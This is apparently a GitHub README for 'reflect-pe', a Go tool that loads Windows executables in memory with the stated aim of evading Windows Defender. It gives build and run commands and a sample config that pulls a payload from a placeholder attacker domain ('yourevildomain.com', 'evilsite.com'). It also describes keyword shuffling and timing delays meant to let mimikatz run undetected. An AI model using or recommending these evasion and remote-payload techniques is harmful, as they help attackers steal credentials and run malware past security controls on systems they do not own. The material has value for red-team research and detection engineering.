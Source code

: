 # Reflect-pe
![Build](https://github.com/ayoul3/reflect-pe/workflows/Go/badge.svg)  

Reflectively load and execute an x64 Portable Executable in-memory. It does not bluntly allocate RWX memory all over the place. Each section gets its required set of permissions.   It also allows patching bytes on the fly to evade memory inspection (Windows Defender).  
Finally, it produces a self-contained executable so no ugly command lines to be inspected by Defender.  

**Supports x64 both unmanaged PE and managed PE (assemblies)**

## Usage  
1. [Prepare a Go environment](https://golang.org/dl/) to build the reflect-pe. 

2. Prepare your `config.yml` file (see below)

3. Build the executable  
*Ps: if you you compile on a machine other than Windows, set these env variables: GOOS=windows GOARCH=amd64*
```bat
git clone https://github.com/ayoul3/reflect-pe
cd reflect-pe
go build -v .
```

Run it and enjoy
```bat
reflect-pe.exe
reflect-pe.exe config_mimi.yml
reflect-pe.exe http://www.evilsite.com/config.yml
```

## Config
```yaml
# BinaryPath can either be an HTTP url, a relative path or an absolute path.
BinaryPath: 'http://www.yourevildomain.com/file.exe'

# ReflectArgs is a string containing the arguments passed to your binary when executed in memory.
# For Unmanaged PE: First argument is the program's name. This parameter can be empty
# For managed PE: First argument is the real first argument

ReflectArgs: 'arg0 arg1 arg2'

# 3 options to load an unmanaged executable in memory:
# Wait: will call CreateThread, then wait 15 to 30 seconds before resuming the threat. This proved very effective against Windows Defender.
# <empty>: We do not wait between thread creation and execution
# Function: We overwrite the address of a Go method with the executable's entry point

ReflectMethod:  # wait, function or empty

# CLR runtime version. If the version specified is not found, the latest one will be taken. If it's empty it defaults to v2.  

CLRRuntime: v4

# 0: no logs, 1: Info logs, 2: Debug
LogLevel: 2

# Keywords to be replaced by a random shuffle. Both utf8 and unicode versions are replaced.
Keywords:
  - mimikatz
  - delpy
  - benjamin
  - delpy
```
Ps: config_mimi.yml contains the basic keywords to target to run a mimikatz without triggering Windows Defender

## Limitations
Reflect-pe only works for x64 dynamic executables on 64-bit intel machines.  

It's not stable when it comes to static binary for the good reason that hardcoded absolute addresses are difficult to find and translate to the new relocated address.
So it cannot load a go-binary for instance (also because the go runtime cannot be loaded twice inside the same process)

I did not try loading a DLL. There may be some small adjustments that are needed to make it work.


## Credit
* https://github.com/stephenfewer/ReflectiveDLLInjection  
* https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1
* Huge thanks to @ropnop (https://github.com/ropnop/go-clr) for 90% of the CLR loading in Go
